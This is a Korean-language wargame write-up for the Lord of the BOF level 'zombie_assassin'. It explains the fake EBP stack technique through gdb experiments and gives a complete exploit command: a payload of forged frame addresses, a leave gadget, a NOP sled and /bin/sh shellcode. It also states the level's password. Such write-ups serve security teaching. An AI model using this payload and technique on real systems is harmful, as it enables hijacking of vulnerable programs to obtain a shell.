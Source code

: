 ```yaml
---
layout: single
title: "LOB assassin -> zombie_assassin"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- wargame
- writeup
- pwnable
comments: true
share: true
---
```


source code:

```c

1  /*
2          The Lord of the BOF : The Fellowship of the BOF
3          - zombie_assassin
4          - FEBP
5  */
6  
7  #include <stdio.h>
8  #include <stdlib.h>
9  
10 main(int argc, char *argv[])
11 {
12         char buffer[40];
13 
14         if(argc < 2){
15                 printf("argv error\n");
16                 exit(0);
17         }
18 
19         if(argv[1][47] == '\xbf')
20         {
21                 printf("stack retbayed you!\n");
22                 exit(0);
23         }
24 
25         if(argv[1][47] == '\x40')
26         {
27                 printf("library retbayed you, too!!\n");
28                 exit(0);
29         }
30 
31         // strncpy instead of strcpy!
32         strncpy(buffer, argv[1], 48);
33         printf("%s\n", buffer);
34 }

```

Stack frame structure:

| buffer[40] |
| SFP |
| RET |
| argc |
| argv |
| environ |

문제에서 FEBP, fake EBP라는 힌트를 주었다. fake EBP는 golem -> darkknight 문제에서 한번 언급된 바 있다.
fake EBP는 ebp를 통해 eip를 조작하는 기법이다. 이를 알아보기 위해 실험을 해 보았다.

![disas]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/0.png)

disas main 명령어를 통해 leave를 하는 위치를 찾았다. leave ret을 하나씩 실행하고 경과를 지켜보기 위해 이 자리에 breakpoint를 걸고 차근차근 실행해 보았다.

![info_register]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/1.png)

A 40개는 buffer 40바이트, BBBB는 stack frame pointer, CCCC는 return 자리이다. 뒤의 D 200개는 padding과 쉘을 위치시킬 것을 고려해 입력해 보았다. 여기까지는 leave를 하기 전이다.

![memory]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/2.png)

![memory2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/3.png)

buffer와 argv 자리에 위치하고 있는 입력값들의 위치를 찾아 두었다. 그리고 si 명령어로 leave를 해 보았다.

![info_register2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/4.png)

ebp에 BBBB인 42424242가 위치해 있는 것을 볼 수 있다. 여기에서 leave 이후의 ret까지 실행시켜 보았다.

![info_register3]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/5.png)

eip가 BBBB 뒤의 값인 CCCC(43434343)으로 바뀐 것을 볼 수 있다. 원래 0x43434343 자리에는 다음에 실행할 명령어의 위치가 들어 있어야 할 것이다. 이제 CCCC(ret 위치) 대신 leave의 주소인 0x080484df를 입력하고, BBBB 자리에 적당한 주소로 bffffba0를 입력해 보았다.

![info_register4]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/6.png)

이전과 동일한 실행지점까지 실행시켜 보았다. eip가 080484df, ebp가 bffffba0으로 바뀌었다. 여기에서 한 줄 더 실행시켜 보았다.

![info_register5]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/7.png)

eip가 ret인 080484e0로 바뀌고 ebp는 이전에 bffffba0에 들어있는 값인 44444444로 바뀌었다. 여기에서 한줄 더 실행시켜 보았다.

![info_register6]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/8.png)

eip마저 44444444로 바뀌었다. 이는 ebp+4에 위치하고 있는 값이었을 것이다. 일련의 과정들을 통해 fake EBP를 다음과 같이 정리해 볼 수 있다.
본래의 SFP 자리에 어떤 주소지를 입력하고 ret 자리에 leave의 주소를 입력하면, SFP 자리에 입력된 주소지가 ebp가 되고, 거기서 4만큼 증가된 자리에 들어있는 주소지가 eip가 된다.
이를 바탕으로 페이로드를 다음과 같이 작성하였다.

```bash

./zombie_assassin `python –c ‘print “\xa0\xfb\xff\xbf”*10 + “\xd0\xf9\xff\xbf” + “\xdf\x84\x04\x08” + “\x90”*100 + “\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80” + “\x90”*75’`

```

1.	ret가 leave를 가리킴으로써 eip가 ret에 들어있는 주소값(\xdf\x84\x04\x08)으로 바뀐다.
2.	ebp가 SFP가 가리키는 주소(\xd0\xf9\xff\xbf)로 바뀐다.
3.	ebp가 SFP에 들어있는 주소가 가리키는 값(\xa0\xfb\xff\xbf)으로 바뀌고, +4가 된 주소에 들어있는 값이 eip에 담긴다.
4.	eip가 \x90” * 100 + shellcode를 실행

![exploit]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/9.png)


my-pass: no place to hide
